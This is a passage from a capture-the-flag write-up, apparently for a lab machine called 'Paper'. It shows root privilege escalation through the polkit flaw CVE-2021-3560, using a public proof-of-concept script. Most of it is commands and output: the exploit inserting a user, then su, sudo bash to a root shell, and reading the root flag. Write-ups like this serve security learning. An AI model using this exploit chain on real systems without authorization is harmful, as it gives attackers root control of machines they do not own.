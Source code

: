 Getting the `sudo` version.
```
$ sudo -V
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29
```

Using `linpeas.sh`, we can find that machine is vulnerable to `CVE-2021-3560` and for that we can use this POC -https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh.

```
$ sh poc.sh -u='sec' -p=sec

[!] Username set as : sec
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username sec...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username sec  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - sec
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```

Gaining the root shell with the new credentials:
```
[dwight@paper ~]$ su - sec
Password:
[sec@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for sec:
[root@paper sec]# id
uid=0(root) gid=0(root) groups=0(root)
```

Getting the flag:
```
[root@paper sec]# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
